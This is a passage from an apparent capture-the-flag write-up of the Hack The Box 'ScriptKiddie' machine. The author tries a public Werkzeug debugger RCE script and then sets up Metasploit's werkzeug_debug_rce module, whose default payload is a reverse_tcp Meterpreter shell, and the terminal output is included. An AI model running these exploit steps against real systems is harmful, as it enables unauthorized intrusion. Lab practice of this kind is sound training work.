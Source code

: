 Lets just work with the things I have.

### Exploitation galore 🔥

I decided to jump straight into exploitation since I had a severe lack of brainactivity during this box. Found [this](https://github.com/its-arun/Werkzeug-Debug-RCE) exploit and this was the result:

```
root@kali:/home/kali/Desktop/HTB/machines/scriptkiddie# python werkzeug.py 10.129.96.25:5000 whoami
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[-] Debug is not enabled
```

Same problem with MSF:


```
root@kali:/home/kali/Desktop/HTB/machines/scriptkiddie# msfconsole
                                                  

                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v6.0.29-dev                          ]
+ -- --=[ 2098 exploits - 1129 auxiliary - 357 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Enable verbose logging with set VERBOSE 
true

msf6 > use exploit/multi/http/werkzeug_debug_rce
[*] No payload configured, defaulting to python/meterpreter/reverse_tcp
msf6 exploit(multi/http/werkzeug_debug_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   werkzeug 0.10 and older


msf6 exploit(multi/http/werkzeug_debug_rce) > show options

Module options (exploit/multi/http/werkzeug_debug_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
```